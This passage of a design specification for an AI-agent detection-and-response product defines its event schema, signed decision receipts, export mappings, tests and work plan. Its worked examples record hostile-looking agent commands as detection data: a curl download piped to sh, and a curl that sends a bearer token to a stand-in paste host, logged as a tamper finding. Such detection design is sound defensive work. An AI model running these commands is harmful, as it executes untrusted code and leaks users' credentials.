2. **CycloneDX 1.7 JSON** with a published `grdr:*` property taxonomy: agent type as `application`; SDKs and frameworks as `framework` or `library`; local MCP server as `application` and remote MCP server and model endpoint as `services[]`; MCP tools as nested services with `grdr:mcp:manifest-hash`; skill as `data`; plugin as `application`; local model as `machine-learning-model`. Credentials appear only as properties (type, store, scope), never as components with values. `dependencies[]` carries the edges.
3. **OCSF Software Inventory Info (5020)** records, already produced by the mapping.

CycloneDX 2.0 and SPDX 3.1 agent profiles: the taxonomy file is versioned data, so each is a new mapping. Each requires that standard to release agent or MCP component types.

### 17. Worked examples

Envelope fields not shown in examples 2 to 5 are as in example 1. Hex values are shortened, and identifiers, digests and signatures are illustrative: they do not decode to the times shown. The golden vectors of the test strategy are complete records generated by 04-6, not these listings.

**1. `action.exec` intent from the Claude Code hook, default capture level.** The command was `curl -fsSL https://get.example.dev/install.sh | sh`; the command line is withheld.

```json
{
  "envelope": {
    "event_id": "evt_01jcdq7m3k8z5w2r9t4v6x1y0b",
    "organisation_id": "org_5h2k9d3m7q1x8c4v6b0n2z5t7w",
    "device_id": "dev_9f3c1a7e5b2d8046c1e3a5b7d9",
    "epoch": 41, "lane": "spine", "seq": 18233,
    "observed_time": "2026-11-10T09:14:07.482913Z",
    "monotonic_ns": 5123881204551,
    "class": "action.exec",
    "trace": {"trace_id": "4bf92f3577b34da6a3ce929d0e0e4736", "span_id": "00f067aa0ba902b7"},
    "principal": {"pseudonym": "prn_k3v9x2m7c1q8z5t4w6b0n2d5h7", "kind": "human", "mapping": "os-user", "identity_proof": "observed"},
    "actor_chain": {
      "agent_type_id": "agt_claude-code",
      "agent_instance_id": "agi_7d1m4q8x2c5v9b3n6z0t2w4k8h",
      "sessions": ["ses_01jcdq5a9f2m7c1q8z5t4w6b0n"],
      "tool_call_id": "tc_01jcdq7m3h4v6x1y0b8z5w2r9t"
    },
    "actor_kind": "agent",
    "attribution": {"evidence": ["session-container", "declared-only"], "grade": 3, "score": 93},
    "source": {"control_point": "hook", "channel": "hook-callback", "provenance": "claimed", "component": "grdr-hook", "adapter": "claude-code/dialect-3", "agent_version": "2.1.319"},
    "integrity": {"prev": "sha256:5b1e...c0d2", "digest": "sha256:9c1f...e07a"},
    "capture_level": "metadata",
    "withheld": ["content.argument"]
  },
  "action": {
    "action_id": "act_01jcdq7m3k1y0b8z5w2r9t4v6x",
    "class": "exec", "phase": "intent", "outcome": "attempted",
    "native_tool": "Bash", "resolution": "resolved",
    "exec": {
      "executable": {"name": "curl", "identity": "exe_sha256:3f7a...91bc"},
      "command_classes": ["net.fetch", "pipe-to-interpreter"],
      "argv_count": 3, "argv_digest": "hmac:77d0...4e1a",
      "cwd": {"path_class": "workspace", "prefix_template": "$WORKSPACE"}
    },
    "secondary_actions": [{"action_id": "act_01jcdq7m3n9t4v6x1y0b8z5w2r", "class": "net.request"}],
    "facts": [{"key": "exec.pipe_to_interpreter", "bool": true, "origin": "deterministic", "analyser": "shell@0.3.1"}],
    "action_digest": "sha256:a41c...77f0",
    "decision_id": "dec_01jcdq7m3m2r9t4v6x1y0b8z5w"
  }
}
```

**2. `action.rollup` for one tool call that ran a build.**

```json
{
  "envelope": {
    "event_id": "evt_01jcdq9v0c7x1y0b8z5w2r9t4v", "class": "action.rollup",
    "lane": "bulk", "seq": 90211,
    "attribution": {"evidence": ["session-container"], "grade": 3, "score": 99},
    "source": {"control_point": "sensor", "channel": "ebpf", "provenance": "derived", "input_floor": "observed-kernel", "component": "grdr-engine"}
  },
  "rollup": {
    "tool_call_id": "tc_01jcdq8k2h4v6x1y0b8z5w2r9t",
    "window": {"start": "2026-11-10T09:15:02Z", "end": "2026-11-10T09:17:44Z"},
    "groups": [
      {"class": "exec", "key": {"executable": "exe_sha256:1d22...8a40", "command_class": "compiler"}, "count": 412, "verdict": "ALLOW", "default": true},
      {"class": "file.write", "key": {"path_class": "workspace.build-output"}, "count": 1876, "bytes": 48211004},
      {"class": "file.read", "key": {"path_class": "workspace"}, "count": 9340},
      {"class": "net.connect", "key": {"host": "registry.npmjs.org", "port": 443, "host_class": "package-registry"}, "count": 37}
    ],
    "elided": {"local_first_seq": 5521001, "local_last_seq": 5532665, "count": 11665, "merkle_root": "sha256:e3b0...52ae", "tree": "rfc6962-sha256"},
    "bundle_digest": "sha256:0c9d...ab31",
    "recorder_expires": "2026-11-13T09:17:44Z"
  }
}
```

**3. `decision.receipt`: Essentials asks before a private key is read.** The hook cannot hold, so `STEP_UP` is executed as a denial with a retry token (D-07).

```json
{
  "envelope": {"event_id": "evt_01jcdqb2f8r9t4v6x1y0b8z5w2", "class": "decision.receipt", "lane": "decision", "seq": 611},
  "receipt": {
    "decision": {
      "decision_id": "dec_01jcdqb2f6t4v6x1y0b8z5w2r9",
      "action_id": "act_01jcdqb2f5v6x1y0b8z5w2r9t4",
      "action_class": "file.read", "action_digest": "sha256:6e02...19cd",
      "control_point": "hook", "engine": "grdr-core@0.9.2", "bundle_digest": "sha256:0c9d...ab31",
      "mode": "Ask", "verdict": "STEP_UP", "executed_as": "deny-with-retry-token",
      "retry_token_id": "rty_01jcdqb2f7x1y0b8z5w2r9t4v6",
      "obligations": ["receipt"],
      "grant_requirement": {"rule_ids": ["essentials.cred-store.read"], "min_grade": "G1", "approver": "self"},
      "determining": [{"pack": "grdr.essentials@1.4.0", "rule": "essentials.cred-store.read", "policy": "local/grdr.essentials@1.4.0/essentials.cred-store.read", "effect": "forbid-unless", "layer": "local", "locked": true}],
      "session_state_seq": 57, "label_epoch": 2, "label_set_hash": "sha256:44d1...9be0", "labels_read": [],
      "facts_read": ["path.class=credential-store.ssh-private-key"],
      "assurance": {"visibility": "claimed", "control": "request", "on_failure": "open", "tamper": "admin"},
      "enforcement": "requested", "spoofable_inputs": true, "evaluator": "engine", "blocked_by": "grdr",
      "reason_code": "ESS-ASK-CRED-READ", "latency_us": 3120, "deadline_ms": 250
    },
    "sig": {"alg": "ed25519", "key_id": "bk_41_2f9a", "value": "mC4x...Qw"},
    "boot_key_cert": "bkc_41_2f9a"
  }
}
```

**4. `finding.state`: an execution in the session container that no tool call covers.** The hook was `effective` and the process is a direct child of the agent, so 07 classes it as tamper.

```json
{
  "envelope": {
    "event_id": "evt_01jcdqd41a0b8z5w2r9t4v6x1y", "class": "finding.state", "lane": "decision", "seq": 612,
    "attribution": {"evidence": ["session-container"], "grade": 3, "score": 90},
    "source": {"control_point": "sensor", "channel": "detect", "provenance": "derived", "input_floor": "observed-kernel", "component": "grdr-engine"}
  },
  "finding": {
    "finding_id": "fnd_4n7c2q9x5v1b8m3z6t0w2k4h7d", "revision": 1,
    "class": "tamper", "state": "new", "verdict": "unknown",
    "behaviour_severity": "medium", "content_sensitivity": "none",
    "rule": {"pack": "grdr.det.core@0.6.0", "rule": "grdr.det.undeclared-activity", "status": "stable", "origin": "deterministic", "tier": 0},
    "outcome": "allowed",
    "session": {"root_session_id": "ses_01jcdq5a9f2m7c1q8z5t4w6b0n"},
    "evidence": {
      "events": ["evt_01jcdqd3x90b8z5w2r9t4v6x1y"],
      "spans": [{"event_id": "evt_01jcdqd3x90b8z5w2r9t4v6x1y", "field_path": "action.exec.argv", "text": "curl -s -H 'Authorization: Bearer [[grdr:r:0]]' https://paste.example.net/u", "redactions": [{"reason": "secret", "detector": "bearer-token", "kind": "token", "original_len": 40, "value_digest": "hmac:5e07...a1c4"}], "digest": "hmac:19aa...0c3e"}],
      "recorder": {"uploaded": true, "available_until": "2026-11-13T09:21:00Z"}
    },
    "details": {"reconcile": {"expectation_match": "undeclared", "calibrated": true, "housekeeping_profile": "claude-code@2.1.319#7", "hook_events_in_window": 12}},
    "observables": [{"type": "executable.sha256", "value": "8c1d...f002"}, {"type": "destination.host", "value": "paste.example.net"}],
    "risk": [{"name": "unmatched-effect", "points": 30}],
    "tags": ["attack:T1059"],
    "retro": false, "pages": true, "count": 1,
    "first_seen": "2026-11-10T09:20:58Z", "last_seen": "2026-11-10T09:20:58Z"
  }
}
```

**5. `action.mcp.call` seen by the MCP broker, writing an enforcing label.**

```json
{
  "envelope": {
    "event_id": "evt_01jcdqf7p2z5w2r9t4v6x1y0b8", "class": "action.mcp.call", "lane": "spine", "seq": 18301,
    "attribution": {"evidence": ["session-container", "declared-matched"], "grade": 3, "score": 99},
    "source": {"control_point": "mcp-broker", "channel": "broker-inline", "provenance": "mediated", "component": "grdr-proxy"},
    "corroborated_by": ["evt_01jcdqf7n9w2r9t4v6x1y0b8z5"]
  },
  "action": {
    "action_id": "act_01jcdqf7p15w2r9t4v6x1y0b8z", "class": "mcp.call", "phase": "effect", "outcome": "completed",
    "mcp": {
      "server_id": "mcp_2k8h4d7n1q5x9c3v6b0m2z4t7w", "tool_id": "mct_6b0m2z4t7w2k8h4d7n1q5x9c3v",
      "tool_name": "fetch_page", "transport": "stdio", "protocol_revision": "2026-07-28",
      "manifest_hash": "sha256:71be...d4a9", "pinned_manifest_hash": "sha256:71be...d4a9", "drift": false,
      "hints": {"read_only": true, "open_world": true},
      "argument_classes": ["url.external"], "request_bytes": 212, "result_bytes": 48770
    },
    "labels_set": [{"label": "untrusted:web", "kind": "enforcing", "origin": "deterministic", "rule": "grdr.base.mcp-result-trust", "scope": "session-lineage", "state_seq": 58}]
  }
}
```

**6. OCSF 1.9 export of the action in example 3** (File System Activity, Read). The extension uid is provisional.

```json
{
  "class_uid": 1001, "category_uid": 1, "activity_id": 2, "type_uid": 100102,
  "time": 1794302051120, "severity_id": 2,
  "metadata": {
    "version": "1.9.0", "uid": "evt_01jcdqb2f4y0b8z5w2r9t4v6x1",
    "profiles": ["ai_operation", "security_control", "record_integrity", "adr/adr"],
    "extensions": [{"name": "adr", "uid": 990, "version": "0.1.0"}],
    "product": {"name": "Guardrails ADR", "vendor_name": "Loonaro"},
    "tenant_uid": "org_5h2k9d3m7q1x8c4v6b0n2z5t7w"
  },
  "device": {"uid": "dev_9f3c1a7e5b2d8046c1e3a5b7d9"},
  "actor": {"user": {"uid": "prn_k3v9x2m7c1q8z5t4w6b0n2d5h7", "type_id": 1}},
  "ai_agent": {"uid": "agi_7d1m4q8x2c5v9b3n6z0t2w4k8h", "instance_uid": "ses_01jcdq5a9f2m7c1q8z5t4w6b0n", "name": "Claude Code", "version": "2.1.319", "type_id": 99, "type": "coding-agent"},
  "file": {"name": "[credential-store.ssh-private-key]", "type_id": 1},
  "action_id": 2, "disposition_id": 23,
  "policy": {"name": "grdr.essentials", "version": "1.4.0", "uid": "essentials.cred-store.read"},
  "attestation_list": [{"chain_uid": "dev_9f3c1a7e5b2d8046c1e3a5b7d9/41/spine", "fingerprint": {"algorithm_id": 3, "value": "2a6f...b19e"}}],
  "adr": {
    "attribution": {"evidence": ["session-container", "declared-only"], "grade": 3, "actor_kind": "agent"},
    "provenance": {"grade": "claimed", "control_point": "hook"},
    "decision": {"uid": "dec_01jcdqb2f6t4v6x1y0b8z5w2r9", "verdict": "STEP_UP", "mode": "Ask", "executed_as": "deny-with-retry-token", "enforcement": "requested", "session_state_seq": 57},
    "assurance": {"visibility": "claimed", "control": "request", "on_failure": "open", "tamper": "admin"}
  }
}
```

## Interfaces and contracts

| Consumer or producer | Contract | Document |
|---|---|---|
| Core engine | Consumes `Event`, emits `DecisionRecord`, `Finding`, labels, roll-ups; reads only `policy_readable` fields | 03, 12 |
| Daemon | Stamps envelope, provenance, lane and `seq`; computes `integrity`; is the only writer of every lane | 03 |
| Agent adapters, shim, control points | Produce `tool.call` and action intents through the tool table; fill process key so effects join; `hook.state`, `expectation.*` and `assurance.record` semantics | 07 |
| Attribution | Evidence gathering behind `attribution` and `session.link` | 06 |
| Sensors | Produce the collector observations behind effects, `process.*` and `health.*` | 08, 09, 10 |
| MCP broker and proxy | Produce `action.mcp.*`, `action.net.request`, `action.llm.request` as mediated events | 17 |
| Transport | Wraps events in batches by lane; owns `BatchHead` signing and acknowledgement | 22 |
| Grants and approvals | `decision.grant` payload; `Verdict` and `Grant` messages | 12, 18 |
| Identity vault | Receives the name mapping out of band; `identity.mapping` holds only its digest | 21 |
| Capture and redaction | Detectors, redaction reasons and kinds; calls the filter in `grdr-model` | 16 |
| Lake | Generated column manifest and flattening rule | 20 |
| Detection content | Field registry, Sigma log-source taxonomy generated from `wire_name` | 13 |
| Inventory and reputation | `inventory.*`, `AgentBom`, observables | 05, 14 |
| Export destinations | `ExportRecord { cursor, revision, record }` over mapped output | 25 |
| API and our MCP server | Read models over the same messages | 23 |

## Behaviour by deployment shape

- **Standalone.** All lanes exist locally in SQLite; nothing is uploaded. Receipts, chains and `grdr audit verify` work. The organisation id is the random one; device-layer pseudonyms are still used (there is no server layer), and the name mapping stays in a local vault file, so `grdr join` never has to rewrite history. Incidents and `audit.access` records are written by the daemon. JSON lines is the only feed in the user install profile.
- **Platform.** The capture-level filter runs before upload. The server adds receive time, skew, its own epoch and the server-layer principal pseudonym (section 3) in a sidecar record and changes archived event bytes only by the reduction of section 10. The name mapping goes to the `identity` target only, outside the lanes. Server-authored records follow section 2. Hosted and self-hosted are identical at the schema level.
- **Embedded.** L1 partners read the feeds. An L3 or L4 host supplies events through a host profile that states the provenance grade of each class it provides (D-60); host-native ids are carried in `native_*` fields and our ids are minted by the engine. Foreign telemetry arrives with `control_point: connector` and carries the grade its host profile declares once the profile passes the conformance kit; until then it is `provenance: reported` (D-60, R-17).

## Extension points

1. Tool-table rows and argument extractors in an agent adapter manifest (pack data).
2. Fact keys under `x.<owner>.*` and label names declared by a pack.
3. Mapping files for a new export or ingest dialect; no code change if the mapper's operations suffice.
4. Observable types, added by pack with an index hint.
5. Feed profiles: a partner can ship a summary-field selection for its collector.
6. The BOM property taxonomy.
7. New event classes, entities or envelope fields are core changes and go through the RFC of D-61.

## Security and privacy

- The harness never mints ids, sets labels or supplies attribution; its values are `native_*` and `provenance: claimed`. This closes the forged-session and forged-attribution routes of l01.
- Provenance, lane and sequence are stamped by the daemon from the authenticated producer, so a compromised engine or adapter cannot present a claim as an observation or write the `local` lane.
- Unknown enum values and unknown fields are preserved but never satisfy a policy condition; an unrecognised `provenance` is treated as forgeable and fails every minimum.
- Field-level class annotations are checked by lint, by the canary release gate and by the pack validator; a field added without a class cannot merge.
- Pseudonyms are HMACs under a device key and then, in platform deployments, under an organisation key the device never holds, so two organisations cannot be joined on them and a device administrator can link only that device's records (D-51). The feed and every export carry pseudonyms only. The limit of this protection is risk R2.
- `score` is not `policy_readable`, and a fact key whose origin is not `deterministic` is rejected in any allow path when the pack is validated (P2; section 6).
- A withheld class travels as a salted commitment with the salt left behind, so the server cannot test guesses against it.
- The local feed is written only by the service identity, and the Windows channel ACL and journald trusted fields let a consumer reject forged records.
- Parsers for these messages in privileged processes use fixed-layout decoding of the envelope and treat payloads as opaque bytes (D-20); full decoding happens in the sandboxed engine.

## Test and evaluation strategy

| Property | Oracle |
|---|---|
| Cross-binding fidelity | Golden vectors (a generated corpus that includes complete forms of the six examples) encode and decode byte-identically in every codec and SDK |
| Unknown-field preservation | Inject fields with reserved-range numbers at the sensor; the archive must contain them |
| Chain and commitment | An independent verifier written against this document (not sharing code with `grdr-crypto`) validates chains, batch heads, epoch links, gaps, class-partitioned digests before and after the filter and after reduction, and roll-up inclusion proofs |
| Lane writers | A test engine process that submits a `local`-lane record, a class outside its writable set or a provenance value is refused, and the refusal is a tamper finding |
| Capture-level filter | Canary strings seeded in recorded sessions; zero occurrences in any sink at the default level, with the `EvidenceSpan` rule of section 13 |
| Normalisation | For each tool-table row, the install-proof job drives the real agent through the replay model endpoint (D-45) and compares emitted action classes with OS-observed effects |
| Attribution grade | Table-driven test over every evidence subset; scripted human and agent commands interleaved (S-08) |
| OCSF output | The OCSF validator at 1.9.0 and 1.3.0 over golden outputs; OTel output checked with Weaver at the pinned commit |
| ASIM and UDM output | Vendor schema testers where available; otherwise golden files reviewed against the published field lists |
| Replay exactness | Re-evaluating a receipt's inputs at the recorded `session_state_seq` and bundle digest reproduces the verdict |
| Volume model | S-01 capture compared with section 12 |

## Work breakdown

Every issue carries an acceptance test. A Requires note marks the few places where ordering matters.

**E1. Schema repository and tooling**
- 04-1 Create `proto/grdr/**`, `buf.yaml`, lint and breaking configuration. Accept: `verify` fails on a renumbered field and on a reused enum value.
- 04-2 `grdr-schema-lint`, the generated field registry and the generated lane table. Accept: a field without `data_class` fails; a class with two lanes for one phase and outcome fails; registry, Cedar schema and Sigma taxonomy drift tests pass.
- 04-3 Spike SP-1 codec and binding. Accept: byte-identical archive with unknown fields through two bindings after a 72-hour soak.
- 04-4 Register option numbers and take package and provider names from the brand manifest (D-66). Accept: no option number in 50000 to 99999 remains; renaming the namespace in the manifest regenerates every package and feed name with no hand edit.

**E2. Envelope, entities, events**
- 04-5 Envelope, lanes, id minting library with injected clock and randomness. Accept: property tests for uniqueness, prefix and determinism under a fixed seed; a lint finds no code that parses an id.
- 04-6 Session, tool, action, expectation, process, health and decision classes, plus `finding.state` and `inventory.agent`. Accept: a real run emits complete records of the shape of examples 1 and 4, and they become golden vectors.
- 04-7 Remaining inventory and finding classes, `hook.state`, `assurance.record`, `audit.admin`, `audit.checkpoint`, `response.action`. Accept: each class has a golden vector, a lane-table entry and a row in the canary test.
- 04-8 `incident.state`, `Suppression`, `response.command`, `audit.access`, server-authored envelope. Requires the server (its API and checkpoint chain). Accept: a suppression with no expiry is rejected; a read of content through the API produces one `audit.access` record that the subject's view returns; a server-authored record verifies in the checkpoint chain.
- 04-9 Lane writer rule in the daemon. Accept: the lane-writers test of the test strategy passes.

**E3. Normalisation**
- 04-10 Tool-table format and interpreter; Claude Code and Codex rows. Accept: every (u) row for these two agents is confirmed or removed by the install-proof job; each row's emitted class matches the OS-observed effect in the replay scenario.
- 04-11 Cursor and Copilot CLI rows. Requires 04-10. Accept: the same test for these two agents.
- 04-12 Unmapped-tool path. Accept: an invented tool name yields `tool.unmapped`, one coverage-gap finding and no denial.

**E4. Decision, receipt, integrity**
- 04-13 Decision record and receipt with Ed25519 signing. Accept: the replay oracle reproduces the verdict bytes on 1,000 recorded decisions; a default ALLOW produces no receipt and every other decision produces exactly one.
- 04-14 Class-partitioned digests, chains, epoch links, gap records, roll-up Merkle trees. Accept: digests match across the unfiltered and filtered copies of one event; a shed range verifies across its gap record; hashing costs under 5% of event emission time (target, SP-2).
- 04-15 `grdr audit verify` data contract and the independent verifier. Accept: the verifier, built without `grdr-crypto`, passes on a spool before and after content reduction and fails on any single flipped byte.

**E5. Privacy classes**
- 04-16 Filter generator and `PathRef` family. Accept: at each of the four levels the output contains exactly the classes of the section 11 table; no bare hash of a content value is emitted at `metadata` except `action_digest`.
- 04-17 Redaction at capture, markers, `original`, `EvidenceSpan`. Accept: a `full content` record reassembles to the captured bytes; captured text containing `[[grdr:` yields a `literal-marker` entry; spans appear only on findings.
- 04-18 Privacy canary release gate. Accept: zero canary strings in upload batches, findings outside spans, the L1 feed, OCSF export and review input at the default level.
- 04-19 Reserve sealed twins. Accept: decoders tolerate a `Sealed` field; a lint finds no code path that emits one.

**E6. Mappings**
- 04-20 Ingest mapping for Claude Code's native OTel events. Accept: a recorded Claude Code session yields one `action.llm.request` per `api_request` event, all `provenance: claimed`.
- 04-21 Mapper and mapping format; `ExportRecord` wrapper with cursor and revision; OCSF 1.9 and the `adr` extension; upstream registration request filed. Accept: golden outputs for every mapped class pass the OCSF validator at 1.9.0; the sensor, server and wasm builds produce identical bytes; a replay from a stored cursor re-delivers every later revision at least once.
- 04-22 OCSF 1.3 down-converter. Requires 04-21. Accept: golden outputs pass the validator at 1.3.0; one class per Parquet object; a Security Lake custom source accepts a test object (requires a Security Lake account from a design partner or donated cloud credits; until one exists this check is marked "requires account").
- 04-23 OTel GenAI, OpenInference and OpenLLMetry ingest at pinned versions; OTLP export. Accept: a fixture trace per dialect maps to the expected classes; export passes Weaver at the pinned commit.
- 04-24 ECS, ASIM (including Agent Event) and UDM export. Requires 04-21. Accept: the ASIM and UDM field lists are re-read and recorded with a date; golden files pass the vendor schema tester where one exists.
- 04-30 Agent 365 export profile. Requires 04-23 and an Agent 365 tenant (a design partner's or a free developer tenant). Accept: a test tenant's `partialSuccess` reports zero rejected spans.

**E7. Local feeds and BOM**
- 04-25 JSON-lines feed with header, rotation and gap records. Accept: a consumer that tails across a rotation and a forced drop sees a contiguous `feed_seq` or a gap record, and no content-class field.
- 04-26 Windows manifest, channels and ACL; journald catalogue; unified-log summary. Accept: stock Falcon LogScale Collector, Splunk forwarder, Fluent Bit and Windows Event Forwarding each collect without custom code; a write to the channel from a non-service process fails.
- 04-27 `AgentBom`, CycloneDX 1.7 export, in-toto statement. Accept: output validates against the CycloneDX 1.7 schema; the statement's signature verifies; no credential value appears.

**E8. Volumes and freeze**
- 04-28 Replace section 12 with S-01's measurements. Requires S-01. Accept: every row is marked measured, with the capture's p50 and p95.
- 04-29 Rename to `v1`, switch `buf breaking` to `FILE`, publish the schema reference. Requires the classes of 04-6 to 04-8; precedes the server's first release. Accept: RFC closed; one external consumer has built against it.

## Risks, open questions and spikes

| Id | Question or risk | Experiment or response |
|---|---|---|
| SP-1 | Which codec preserves unknown fields and is deterministic enough for hashing? | One proto through `buffa` and `prost`; 72-hour soak; byte-identical archive. Fallback: never re-encode |
| SP-2 | Does five-way class hashing cost too much at 250,000 local events a day? | Benchmark on a tier A CI runner (D-64); pass at under 5% of emission time (target), else merge identifier, structural and derived into one digest |
| SP-3 | Does the process spine fit the volume design points (objection 1)? | S-01 capture; count `process.*` per tool call on build-heavy days |
| SP-4 | Unified log and Event Log size limits and forwarder behaviour | Write maximum-size records; read back through `log stream`, WEF and two collectors |
| Q1 | OCSF 1.10 may ship `ai_capability`, `ai_status` and an agent activity class before the freeze | Mapping version bump; back-port objects are isolated in the extension |
| Q2 | Pseudonym stability across a person's devices depends on IdP mapping, which requires the server's identity target (15) | Without it the vault links several pseudonyms to one person; no schema change |
| Q3 | Are destination host and the keyed digests of arguments (`path_digest`, `argv_digest`, prompt digest) acceptable at the default level in every regime? `action_digest` is a plain SHA-256 of the canonical action, so anyone holding the upload can test a guessed command against it | 29 decides per regime; any of these fields can be reclassified to argument by a registry change before freeze. For `action_digest`, 12 would have to key the digest or keep it out of the `metadata` upload |
| Q4 | Seed tool-table rows marked (u) may be wrong | Install-proof job; rows stay Tier 3 until confirmed |
| R1 | Schema churn before the freeze breaks agent-written code | Golden vectors and generated registries make breaks compile errors, not runtime surprises |
| R2 | Resolved for principals by R-18: no device holds the organisation pseudonym key, so a device administrator can recompute only that device's pseudonyms, which D-51 accepts. The organisation entity key is still on every enrolled device, so its holder can test guesses against `path_digest`, `argv_digest` and the prompt digest | In the Protected profile the entity key is readable only by the privileged service; Q3 covers the keyed digests. Owner question 9 may move pseudonym issuance entirely to the server |
| R3 | Resolved by R-08: the daemon is the only writer of every lane, `local` included; the engine sends records to the daemon | None; 04-9 tests it |

## Deviations from the spine and objections

1. **Objection to D-52, followed in the body. Open until S-01.** "Process start and exit in agent lineage" is always shipped and never sampled, while repeated allowed exec events roll up. On build-heavy endpoints the process spine alone may be 5,000 to 40,000 events a day and defeat the 5,000 design point. Proposal: after S-01, allow `process.*` for repeated identical (executable identity, parent identity) pairs inside one tool call to roll up with a Merkle root, keeping first-seen and every non-zero exit.
2. **Elaboration of D-06, not a contradiction.** D-06 names four data classes; the four capture levels need arguments separated from bodies. This document adds a `content_kind` sub-option on content fields instead of a fifth class.
3. **Note on the brief.** The brief names privacy classes "metadata, content, sealed". The spine's vocabulary is used: `metadata` is a capture level, and sealed fields are a reserved seam under D-35.
4. **Narrowing of brief 23's rule 3**, which 03 calls normative: closed enums carry no "other" value (section 13).
5. **Difference from 07.** Resolved by R-02: only non-default decisions get a signed receipt, and the fail-open oracle checks the decision record.
6. **Naming difference from 07 and 12.** Resolved by R-02: the fields are `verdict` and `executed_as`, as here and in 12.

## Sources

Research briefs: `23-schemas-transport.md` (and its verification table), `26-integrations.md`, `17-discovery-attribution.md`, `15-coding-agent-surfaces.md`, `16-other-agent-surfaces.md`, `19-identity-industry.md`, `18-identity-ietf.md`, `24-platform-architecture.md`, `36-response-operations.md`, `g04-server-k8s-ci-runtimes.md`, `g06-threat-intel-content-ops.md`, `g10-saas-ops-day2-economics.md`, `h02`, `h05`, `h06`; vendor pages under `research/_sources/beyondtrust/` (`docs-events.md`, `docs-event-details.md`) and `research/_sources/crowdstrike/aidr-docs-logs-and-findings.md`.

Review notes: `c5-transport-schema-audit-api.md`, `l03-soc-detection-engineer.md`, `c4-discovery-attribution-identity.md`, `l07-privacy-works-council.md`, `c1-storage-platform.md`, `00-resolution.md`.

Primary URLs read by the author on 2026-11-10 for facts not in the briefs. The second reader could not re-check them, so each is re-validated by a test or work item named in the text:

- https://schema.ocsf.io/api/1.9.0/classes and https://schema.ocsf.io/api/1.3.0/classes (class uids; presence in 1.3)
- https://schema.ocsf.io/api/1.9.0/classes/detection_finding (`status_id`, `verdict_id`, `action_id`, `disposition_id` values)
- https://learn.microsoft.com/en-us/azure/sentinel/normalization-about-schemas and https://learn.microsoft.com/en-us/azure/sentinel/normalization-schema-agent (ASIM schema list; Agent Event 1.0.0 fields)
- https://docs.cloud.google.com/chronicle/docs/reference/udm-field-list (UDM event types, `SecurityResult.Action`, `Noun.ai`)
- https://learn.microsoft.com/en-us/windows/win32/api/evntprov/nf-evntprov-eventwrite (64 KB event limit)
- https://www.freedesktop.org/software/systemd/man/latest/systemd.journal-fields.html (trusted fields, `MESSAGE_ID`, `PRIORITY`)

Unverified and marked as such in the text: tool names tagged (u), unified-log message limits, the provisional OCSF extension uid, OpenLLMetry attribute names, and the count of CycloneDX component types (from prior knowledge of the 1.6 and 1.7 schemas).
